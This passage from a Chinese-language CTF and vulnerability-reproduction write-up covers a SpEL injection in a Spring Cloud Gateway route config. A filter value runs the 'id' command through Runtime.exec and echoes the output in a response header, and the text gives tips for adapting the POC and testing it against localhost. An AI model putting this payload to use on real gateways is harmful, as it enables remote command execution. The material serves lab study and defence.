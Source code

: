 ```bash
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```

这里增加了一个 filters 字段，并写入 POC，但这里需要注意的坑有两点：

1.  需要修改原 POC，将字符串输入结果使用 replace() 将\\n以及\\r符号替换为空，否则会提示报错 Header 中不能包含该字符导致利用失败
2.  在 YAML 配置文件中，SpEL 表达式必须要用双引号括起来，但 POC 原本就带有双引号，会导致识别冲突，所以将 POC 内所有的双引号改为单引号，外面在用双引号括起来

完成后对配置文件进行发布，然后尝试访问`http://127.0.0.1:8888/echo/123`，可以发现成功回显了命令执行的结果

**四、国赛 Backend-service 题目复现**

（所用的是 ctfshow 提供的环境，payload 可能有些不同）

[![](assets/1700442594-1e4b393eef568a1bda1ae4f12ed813ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155636-ff4817ac-85e7-1.png)
